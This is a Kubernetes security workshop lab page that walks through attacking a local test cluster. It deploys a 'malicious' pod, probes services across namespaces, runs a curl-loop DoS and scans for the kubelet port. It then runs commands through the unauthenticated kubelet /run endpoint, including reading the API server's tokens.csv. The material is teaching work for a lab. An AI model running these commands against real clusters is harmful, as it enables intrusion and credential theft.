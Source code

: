 # Kubernetes Security Assessment

__References:__
* https://raesene.github.io/blog/2016/10/08/Kubernetes-From-Container-To-Cluster
* https://raesene.github.io/blog/2017/07/23/network-tools-in-nonroot-docker-images
* https://medium.com/@airman604/kali-linux-in-a-docker-container-5a06311624eb
* https://github.com/raesene/alpine-noroot-containertools
* https://grafeas.io
* https://www.openpolicyagent.org
* https://k8guard.github.io

## 1) Identifying Attack Vectors

Below you can see different attack vectors for HelloWord v3 as target.

```sh
$ git clone https://github.com/chilcano/service-mesh-workshop
$ cd $(PWD)/service-mesh-workshop/labs

$ kubectl get pod,svc -n hello -o wide

## getting all system environment variables available in a POD
$ kubectl exec hello-v1-69c9685b5-dgnhq  -n hello -- printenv

$ kubectl exec hello-v3-7cb4968687-f99b8 -n hello -c helloworld -- curl -s localhost:5000/hello
Hello version: v3, instance: hello-v3-7cb4968687-f99b8

## introducing a ‘malicious’ container
$ kubectl create ns malicious
$ kubectl run malicious-curl --image=radial/busyboxplus:curl -ti --replicas=1 -n malicious
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ nmap xyz

## calling an API from other namespace through its services
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ curl -sv hello-svc-np.hello.svc.cluster.local:5030/hello
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ curl -sv hello-svc-np-e2e.hello.svc.cluster.local:5040/hello

## DoS attack
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ export HELLO_URL=hello-svc-np.hello.svc.cluster.local:5030
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ while true; do curl -s -o /dev/null http://$HELLO_URL/hello; done

## gathering information about the services living in kubernetes
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ nslookup hello-svc-np.hello.svc.cluster.local
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ nslookup hello-svc-np-e2e.hello.svc.cluster.local

## gathering information about the pods living in kubernetes
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ nslookup 172.17.0.7                             # po/hello-v1-69c9685b5-dgnhq
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ nslookup 172-17-0-7.hello.pod.cluster.local
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ nslookup 172.17.0.8                             # po/hello-v3-7cb4968687-f99b8
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ nslookup 172-17-0-8.hello.pod.cluster.local

## calling an API from other namespace directly from pod's IP addresses and open Ports
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ curl -sv 172.17.0.7:5000/hello
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ curl -sv 172.17.0.8:5000/hello

## Deploying Kali Linux (security audit tools)
$ kubectl apply -f 05-security-assessment/kali-linux.yaml
$ export KALI_POD_NAME=$(kubectl get pod -l run=kali-linux -o jsonpath='{.items[0].metadata.name}')
$ kubectl exec -ti ${KALI_POD_NAME} -- /bin/sh
# apt update
# apt install -y nmap curl netcat
```

## 2) Gathering information

### 2.1) Scanning internal network to get open ports:
```sh
$ kubectl cluster-info
Kubernetes master is running at https://192.168.99.100:8443

$ kubectl exec -ti ${KALI_POD_NAME} -- /bin/sh
# ip address

# nmap -sT -v -n -p10250 192.168.99.0/24
...
PORT      STATE  SERVICE
10250/tcp closed unknown

Nmap scan report for 192.168.99.100
Host is up (0.00068s latency).

PORT      STATE SERVICE
10250/tcp open  unknown

Read data files from: /usr/bin/../share/nmap
Nmap done: 256 IP addresses (2 hosts up) scanned in 30.31 seconds
           Raw packets sent: 1920 (72.492KB) | Rcvd: 1896 (124.416KB)
```

### 2.2) Enumerate containers running in cluster

### 2.3) Exploring and getting information from containers and pods.

```sh
# curl -sk https://192.168.99.100:10250/runningpods/ | python -mjson.tool
```

```json
...
        {
            "metadata": {
                "creationTimestamp": null,
                "name": "hello-v3-7cb4968687-w7rkt",
                "namespace": "hello",
                "uid": "fd197309-3d9d-11e8-8164-0800273e1a0b"
            },
            "spec": {
                "containers": [
                    {
                        "image": "istio/proxy@sha256:51ec13f9708238351a8bee3c69cf0cf96483eeb03a9909dea12306bbeb1d1a9d",
                        "name": "istio-proxy",
                        "resources": {}
                    },
                    {
                        "image": "istio/examples-helloworld-v1@sha256:c671702b11cbcda103720c2bd3e81a4211012bfef085b7326bb7fbfd8cea4a94",
                        "name": "helloworld",
                        "resources": {}
                    }
                ]
            },
            "status": {}
        },
...
```

Performing commands remotely through Kubernetes API Server:
```sh
# curl -k -XPOST "https://192.168.99.100:10250/run/hello/hello-v3-7cb4968687-w7rkt/helloworld" -d "cmd=ls -la"
# curl -k -XPOST "https://192.168.99.100:10250/run/hello/hello-v3-7cb4968687-w7rkt/helloworld" -d "cmd=cat app.py"
```

## 3) Assessing the Kubernetes API Server security

```sh
# curl -k -XPOST "https://192.168.99.100:10250/run/kube-system/kube-apiserver-kube/kube-apiserver" -d "cmd=ls -la /"

# curl -k -XPOST "https://192.168.99.100:10250/run/kube-system/kube-apiserver-kube/kube-apiserver" -d "cmd=whoami"

# curl -k -XPOST "https://192.168.99.100:10250/run/kube-system/kube-apiserver-kube/kube-apiserver" -d "cmd=ps -ef"

# curl -k -XPOST "https://192.168.99.100:10250/run/kube-system/kube-apiserver-kube/kube-apiserver" -d "cmd=cat /etc/kubernetes/pki/tokens.csv"
```

Now, try it from out of cluster.
```sh
$ curl -k -X GET -H "Authorization: Bearer xyz..." https://192.168.99.100
```

## 4) Installing Security Tools as not root

```sh
$ kubectl apply -f labs/kube/03-ingress-sidecar/alpine-noroot-sec-tools.yaml
```
